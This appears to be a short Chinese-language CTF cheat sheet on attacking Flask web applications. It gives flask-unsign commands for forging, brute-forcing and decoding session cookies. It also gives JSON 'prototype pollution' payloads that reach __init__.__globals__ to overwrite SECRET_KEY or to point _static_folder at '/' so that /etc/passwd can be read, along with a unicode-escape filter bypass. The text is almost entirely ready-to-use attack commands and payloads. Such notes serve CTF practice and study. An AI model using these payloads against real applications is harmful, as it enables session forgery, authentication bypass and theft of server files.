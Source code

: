 - uncicode 绕过 `\u0069`
- [原型链](#原型链污染)覆盖 SECRET_KEY , session 伪造
- 原型链覆盖 `_static_folder` , 访问 /static/etc/passwd

## flask session

需要得到 secret,

```sh
pip install flask-unsign
flask-unsign --sign --cookie "{'balance': 666666}" --secret "XMM<XMK"

flask-unsign --unsign --cookie "eyJ1c2VyIjoiaWRkbm0ifQ.YyVDmQ.nXit643ch5T34u092IJSngKbCwI" --wordlist dict.txt
flask-unsign --decode --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8"
```

## 原型链污染

覆盖 SECRET_KEY, 然后伪造 session

```json
{
  "__init\u005f_": {
    "__globals\u005f_": {
      "app": {
        "config": {
          "SECRET_KEY": "aaa"
        }
      }
    }
  },
  "username": 1,
  "password": 1
}
```

覆盖 SECRET_KEY, 然后读 http://x.x/static/etc/passwd

```json
{
  "username": "test",
  "password": "test",
  "__init\u005f_": {
    "__globals__": {
      "app": {
        "_static_folder": "/"
      }
    }
  }
}
```

## flask 原型链污染获取 PIN 码

[Link](../../../../../blog/text/docs/ctf/scripts/web/web_flask_pin_%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93.zip)
